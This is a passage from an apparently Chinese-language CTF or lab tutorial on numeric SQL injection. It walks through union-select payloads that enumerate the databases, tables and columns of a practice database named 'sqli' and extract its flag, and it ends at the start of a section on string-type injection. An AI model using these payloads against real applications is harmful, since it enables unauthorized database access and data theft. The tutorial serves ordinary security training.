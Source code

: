 （1）获取当前数据库库名和版本

![image-20220608162648995](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608162648995.png)

![image-20220608163317673](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608163317673.png)

得到数据库名称为：sqli，由数据库版本可知他是MySQL的一个分支

（2）获取所有数据库库名

-1 union select 1,group_concat(schema_name) from information_schema.schemata

![image-20220608163541238](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608163541238.png)

**6.获取数据库表名**

（1）方法一：一次获取一个表名

-1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 0,1)

![image-20220608163845276](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608163845276.png)

得到数据库表名：flag。修改limit中第一个数字，如获取第二个表名：limit 1,1，这样就可以获取所有的表名。

-1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1)

![image-20220608164004072](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164004072.png)

得到数据库表名：news

（2）方法二：一次性获取当前数据库所有表名

-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'

![image-20220608164123631](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164123631.png)

得到数据库sqli中的表名为news和flag

**7.获取表中的字段名**

-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'

![image-20220608164513337](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164513337.png)

**8.获取数据**

-1 union select 1,group_concat(flag) from sqli.flag

![image-20220608164745900](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164745900.png)



### **字符型注入

**1.判断是否存在注入**
